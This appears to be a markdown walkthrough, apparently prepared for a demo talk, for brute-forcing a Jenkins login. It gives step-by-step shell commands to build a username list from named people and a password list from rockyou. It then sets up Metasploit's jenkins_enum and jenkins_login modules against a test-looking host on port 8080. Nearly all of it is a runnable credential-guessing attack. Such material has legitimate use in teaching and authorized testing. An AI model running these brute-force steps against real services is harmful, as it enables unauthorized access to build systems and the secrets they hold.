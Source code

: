 # Bruteforce Jenkins Login
This section aims to login to the company's Jenkins instance.
To do so, we'll prepare a list of usernames and check login with rockyou list.
Before login can be bruteforced, the login URL must be identified via BurpSuite.

## Open Questions
- how do I know the port
- how do I know the URL

## Prepare Usernamelist

```bash
mkdir -p /root/demotalk/jenkinsBrute/
cd /root/demotalk
git clone https://github.com/captain-noob/username-list-generator.git
cd username-list-generator
rm output.txt user.txt
nano user.txt
```

put the names into nano.
Dont take all names to not break too much bruteforce into
```
Kay Meyer
Robert Bartsch
Ricardo Pope
Jeffrey van der Linden
```

```bash
python3 userlistcreator.py
mv output.txt /root/demotalk/jenkinsBrute/userlist.txt
cd /root/demotalk/jenkinsBrute/
```

## Prepare Passwordlist
Let's use the end of rockyoulist as that contains the sophisticated passwords

```bash
cd /root/demotalk/jenkinsBrute/
tail -n 15 /usr/share/wordlists/rockyou.txt > /root/demotalk/jenkinsBrute/passwordlist.txt
sed -i 's/[\t ]//g;/^$/d' passwordlist.txt
```
## Enum Module
Let's get some details of Jenkins

```bash
msfconsole
use auxiliary/scanner/http/jenkins_enum
set RHOSTS jenkins.test.nevervictimconsult.xyz
set RPORT 8080
set TARGETURI /
exploit
```

## Login Scan Module


#### Get Login URL
use Burpsuite

### Prepare Options
prepare the exploit

```bash
msfconsole
use auxiliary/scanner/http/jenkins_login
set RHOSTS jenkins.test.nevervictimconsult.xyz
set RPORT 8080
set USER_FILE /root/demotalk/jenkinsBrute/userlist.txt
set PASS_FILE /root/demotalk/jenkinsBrute/passwordlist.txt
set LOGIN_URL j_spring_security_check
```

